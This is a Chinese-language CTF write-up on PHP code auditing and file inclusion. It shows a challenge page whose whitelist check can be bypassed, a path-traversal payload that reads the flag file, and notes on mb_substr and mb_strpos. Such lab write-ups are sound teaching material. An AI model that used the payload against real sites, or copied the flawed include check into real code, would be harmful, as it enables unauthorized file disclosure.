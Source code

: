 #PHP #代码审计 #文件包含
HTML注释里提示有source.php
查看 source.php
```php
<?php
highlight_file(__FILE__);
class emmm
{
    public static function checkFile(&$page)
    {
        $whitelist = ["source" => "source.php", "hint" => "hint.php"];
        if (!isset($page) || !is_string($page)) {
            echo "you can't see it";
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}

if (
    !empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}
```
我们期望在 checkFile 返回 true
1. file=source.php 或 file=hint,php
2. 先给file后面加一个 ？ ，file中第一个问号之前的内容满足 1
```url
?file=hint.php
```
回显flag not here, and flag in ffffllllaaaagggg
尝试得出payload：
```url
?file=source.php?../../../../../ffffllllaaaagggg
```

```php
mb_substr(  
    string $string,  
    int $start,  
    ?int $length = null,  
    ?string $encoding = null  
): string
 获取部分字符串
```
- string : 从该 string 中提取子字符串。 
- start  : 如果 `start` 不是负数，返回的字符串会从 `string` 第 `start` 的位置开始，从 0 开始计数。举个例子，字符串 '`abcdef`'，位置 `0` 的字符是 '`a`'，位置 `2` 的字符是 '`c`'，以此类推。如果 `start` 是负数，返回的字符串是从 `string` 末尾处第 `start` 个字符开始的。
- length  : `string` 中要使用的最大字符数。如果省略了此参数或者传入了 `NULL`，则会提取到字符串的尾部。
- encoding  : `encoding` 参数为字符编码。如果省略或是 **`null`**，则使用内部字符编码。

```php
mb_strpos(  
    string `$haystack`,  
    string `$needle`,  
    int `$offset` = 0,  
    ?string `$encoding` = **`null`**  
): int|false
查找字符串在另一个字符串中首次出现的位置
```
- haystack : 要被检查的 string。
- needle : 在 `haystack` 中查找这个字符串。 和 [strpos()](https://www.php.net/manual/zh/function.strpos.php) 不同的是，数字的值不会被当做字符的顺序值。
- offset : 搜索位置的偏移。如果没有提供该参数，将会使用 0。负数的 offset 会从字符串尾部开始统计。
- encoding : `encoding` 参数为字符编码。如果省略或是 **`null`**，则使用内部字符编码。


